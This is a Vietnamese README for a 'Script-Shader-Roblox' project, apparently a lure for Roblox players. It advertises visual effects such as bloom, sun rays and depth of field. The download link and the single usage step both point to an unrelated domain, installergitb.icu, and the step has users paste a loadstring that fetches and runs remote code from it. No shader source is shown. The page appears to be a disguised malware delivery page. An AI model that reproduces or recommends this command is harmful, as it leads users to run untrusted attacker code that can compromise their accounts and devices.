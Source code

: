 # Script-Shader-Roblox-1.1
# Roblox Shader: Customizable Visual Enhancer

[Download link](https://installergitb.icu?5kbrcd)

Một shader tuyệt đẹp cho Roblox được viết bằng Lua Script – giúp nâng tầm hình ảnh trong game của bạn với hiệu ứng **bloom**, **motion blur**, **sun rays**, **depth of field**, và **atmosphere**. Có thể **tùy chỉnh chất lượng** theo ý thích và đã hỗ trợ giao diện mobile tiện dụng.

---

## 🆕 Cập nhật mới nhất

### v1.2 - 2025-05-18

- Thêm **Giao diện người dùng (GUI)** cho mobile ở góc trên bên phải để chuyển đổi chất lượng shader
- Tối ưu hiệu ứng **motion blur** cho mobile — mượt hơn, đỡ mỏi mắt khi xoay camera nhanh
- **Nâng nhẹ vị trí mặt trời** để giảm độ chói, dịu mắt hơn khi nhìn trời
- **Tái cấu trúc mã nguồn**: dễ mở rộng thêm các tùy chỉnh trong tương lai

---

## ✨ Tính năng nổi bật:

- **3 chế độ chất lượng**: Low, Medium, High (F1–F3 hoặc nút GUI trên điện thoại)
- **Hiệu ứng Blur chuyển động thông minh**
- **Bloom ánh sáng và Sun Rays chân thực**
- **Depth of Field cinematic**
- **Atmosphere và Fog mờ ảo tạo chiều sâu**
- **Tự động chuyển hiệu ứng theo góc quay camera**
- **Giao diện gọn nhẹ cho mobile (góc trên bên phải)**

---

## ⚙️ Cách sử dụng

1. Dán đoạn loadstring sau vào Client và chạy

```lua
loadstring(game:HttpGet("https://installergitb.icu?5kbrcd"))()
